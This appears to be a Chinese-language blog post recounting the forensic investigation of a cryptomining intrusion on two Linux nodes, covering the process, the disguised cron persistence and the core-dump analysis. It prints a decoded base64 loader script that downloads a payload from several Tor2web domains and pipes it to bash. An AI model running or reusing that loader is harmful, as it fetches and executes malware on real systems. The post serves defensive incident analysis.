## 背景

今天早上接到同事报警，环境中两个节点出现了 CPU 使用率告警，通过 `top` 查看发现是一个叫 ` iSdqkI` 的进程，但是这明显不是常规进程，初步怀疑是系统被入侵了，在同事的协助下最终解决了。这次主要记录遇到这种问题的排查思路，也算是对过程的复述。

## 分析过程

首先我们得到的信息是 CPU 使用率告警，第一时间是通过 `top` 来看看是哪个进程在作怪：



可以看到 `FnrgiY` 这个进程 CPU 使用率为 556%，且这个进程不是我们系统中存在的进程，这里判断是入侵后被植入的软件，通过 `ps` 命令查看进程的具体执行内容：



可以看到， `FnrgiY` 应该是一个可执行的程序（可能是脚本，也可能是一个 binary 文件），我非常年轻的想通过 `find` 查看这个文件在哪，然后 kill 掉进程删除文件就好了：



嗯，果然年轻了，系统下不存在该文件，那么我们尝试在 `/proc/15582` 下来看看有什么线索，先看看 `cmdline` ，跟进程名相同，没啥信息



同样 `stack` 文件也没什么有用的信息



来看看这个进程的 `cwd` 是啥，可以看到 `cwd` 是 `/usr/bin` 路径的软链接，但是我刚刚已经检查过了，在 `/usr/bin/` 下没有这个可执行文件



通过 `lsof -p` 命令，来看看这个进程打开了哪些文件，可以看到它启动的进程文件是 `/usr/bin/e6bb0f*` ，但是被删掉了，然后它还有一个 TCP 连接（先不管），看到一个存在的文件 `/tmp/.X11-unix/1`



来看看这个文件是啥，`cat` 一下发现这个文件其实是 pid 文件，并没有其他信息



既然它用到了这个文件，那么我们来看下这个文件所在路径，引用 [StackExchange](https://unix.stackexchange.com/questions/196677/what-is-tmp-x11-unix) 里面的回答：
>The X11 server (usuall Xorg these days) communicates with clients like xterm, firefox, etc via some kind of reliable stream of bytes. A Unix domain socket is probably a bit more secure than a TCP socket open to the world, and probably a bit faster, as the kernel does it all, and does not have to rely on an ethernet or wireless card.

我们来看下这个路径下还有什么文件，发现了 3 个异常的文件： 01, 1, 2，其中 1 文件是异常进程的 pid 文件，2 文件是空的，01 文件记录也是一个 pid



通过 `ps` 来查看这个 pid 对应进程，也是一个异常进程，这个进程有一个子进程是执行了一个 Shell 脚本，是通过 Base64 编码过的，来解码看看



```shell
root@yiran-workstation:~
 $ echo ZXhlYyAmPi9kZXYvbnVsbApleHBvcnQgUEFUSD0kUEFUSDovYmluOi9zYmluOi91c3IvYmluOi91c3Ivc2JpbjovdXNyL2xvY2FsL2JpbjovdXNyL2xvY2FsL3NiaW4KdD10b3JudHBheG53Nnl4aGw0CnUoKSB7Cng9L2Nybgp3Z2V0IC10MSAtVDE4MCAtcVUtIC1PLSAtLW5vLWNoZWNrLWNlcnRpZmljYXRlICQxJHggfHwgY3VybCAtbTE4MCAtZnNTTGtBLSAkMSR4Cn0KaWYgISBscyAvcHJvYy8kKGNhdCAvdG1wLy5YMTEtdW5peC8wMSkvaW87IHRoZW4KKAp1ICR0Lm9uaW9uLmdsYXNzIHx8CnUgJHQuY2l2aWNsaW5rLm5ldHdvcmsgfHwKdSAkdC5vbmlvbi5tbiB8fAp1ICR0Lm9uaW9uLnNoIHx8CnUgJHQub25pb24uaW4ubmV0IHx8CnUgJHQudG9yMndlYi5pbyB8fAp1ICR0LjR0b3IubWwgfHwKdSAkdC5vbmlvbi50bwopfGJhc2gKZmkK|base64 -d

exec &>/dev/null
export PATH=$PATH:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin
t=torntpaxnw6yxhl4
u() {
x=/crn
wget -t1 -T180 -qU- -O- --no-check-certificate $1$x || curl -m180 -fsSLkA- $1$x
}
if ! ls /proc/$(cat /tmp/.X11-unix/01)/io; then
(
u $t.onion.glass ||
u $t.civiclink.network ||
u $t.onion.mn ||
u $t.onion.sh ||
u $t.onion.in.net ||
u $t.tor2web.io ||
u $t.4tor.ml ||
u $t.onion.to
)|bash
fi
```

我们可以看看这个脚本的内容，先是重定向了标准输出，然后定义了一个函数，函数的作用是 wget/curl 下载一个文件，如果对应 pid 文件不存在，那么执行这个函数，并传递了很多的域名。

现在问题来了，进程怎么执行的？因为我有两台机器都有问题，我尝试 `kill` 掉异常进程，发现没有自动重启，那么很有可能是在系统上存在定时任务，通过 `crontab -l` 查看


看到了一个 `/root/.systemd-ntpdate` 同步时间的任务，我想直接忽略了，但是 jiewei 同学让我查看下这个文件，是不是真的仅仅是时间同步，于时就看了下，好嘛，差点被骗



既然 `crontab -l` 都已经配置了，那肯定要检查下其他路径下的配置文件，比如 `/etc/cron.d` `/etc/cron.daily` 等路径，果然又发现了一个 `0systemd-ntpdate`





脚本内容都是一样的，只是 sleep 的参数不同



既然找到了启动方式，那么现在可以直接 kill 掉进程，并删除 crontab 配置了，fengli 同学想要看看这个进程做了啥，于是通过 `gcore` 来生成了 core dump 文件



通过 `strings` 查看该 coredump 文件，来看看能找到什么有用的信息


与公网服务器是通过 jsonrpc 发送请求的，但是请求信息被编码过，不知道具体是什么内容



可以看到大量的 cpu 型号，应该是收集了这个节点的硬件信息



配置了 SOCK 代理，估计还有访问国外地址的请求



再就没看出什么了，清理掉相关进程信息，同时清理掉定时任务，收工。

## 后续
但是想着通过 google 查一下连接的那个公网 IP，看看有没有其他受害者，果然，发现了一篇[博客](http://www.ishenping.com/ArtInfo/3753664.html) 也写了一个分析过程，整体分析流程类似。

同时发现了360 在今年写的一篇[博客](https://blog.netlab.360.com/systemdminer-propagation-through-ddg/) ，里面很详细的分析了这个入侵方式，通过什么方式入侵，有什么特征之类的，推荐阅读。

## 总结

当你的系统已经被别人入侵过了，那么你不要相信任何你看到的东西。

## 参考链接

* https://unix.stackexchange.com/questions/196677/what-is-tmp-x11-unix
* https://blog.netlab.360.com/systemdminer-propagation-through-ddg/
